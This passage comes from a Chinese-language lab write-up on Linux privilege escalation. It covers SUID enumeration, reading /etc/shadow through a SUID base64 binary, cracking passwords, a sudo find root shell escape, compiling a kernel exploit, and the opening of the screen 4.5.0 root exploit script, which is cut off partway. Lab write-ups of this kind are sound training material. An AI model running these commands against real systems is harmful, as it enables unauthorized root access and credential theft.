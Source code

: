 也没有后台运行的短时cron脚本

利用`find / -type f -perm -04000 -ls 2>/dev/null`查看SUID权限的工具，可以看到之前的base64工具

![image-20220827004529165](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827004529165.png)

利用`base64 /etc/shadow | base64 --decode`可以看到root和missy用户都有密码可以爆破，先尝试missy的

![image-20220827004900596](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827004900596.png)

爆破出missy的密码，后台爆破root密码无果，登陆missy查看

missy可以无密码sudo执行find

![image-20220827005106987](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827005106987.png)
可以用find提权了

`sudo find . -exec /bin/sh \; -quit`

![image-20220827005906913](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827005906913.png)

1. What is the content of the flag1.txt file?
   `find / -name flag1.txt`
2. What is the content of the flag2.txt file?
   `find / -name flag2.txt`

![image-20220827010032692](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827010032692.png)

## HTB ACADEMY

### Kernel Exploits

1. Escalate privileges using the same Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel_exploit directory.
   `uname -a`查看系统内核信息为`Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`
   将`https://vulners.com/zdt/1337DAY-ID-30003`的poc下载至操作机中
   利用python3的http服务将文件传输至目标机
   `gcc exploit.c -o exploit`并添加执行权限利用即可
   ![image-20220826124903591](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826124903591.png)

### Vulnerable Services

1. Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory.

   输入`find / -type f -perm 040000 -ls 2>/dev/null`查看SUID文件
   ![image-20220826145949046](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826145949046.png)
   可以一个漏洞`screen-4.5.0`，同时具有SUID和GUID权限
   对其进行脚本提权

   ```bash
   #!/bin/bash
   # screenroot.sh
   # setuid screen v4.5.0 local root exploit
   # abuses ld.so.preload overwriting to get root.
   # bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
   # HACK THE PLANET
   # ~ infodox (25/1/2017)
   echo "~ gnu/screenroot ~"
   echo "[+] First, we create our shell and library..."
   cat << EOF > /tmp/libhax.c
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   ```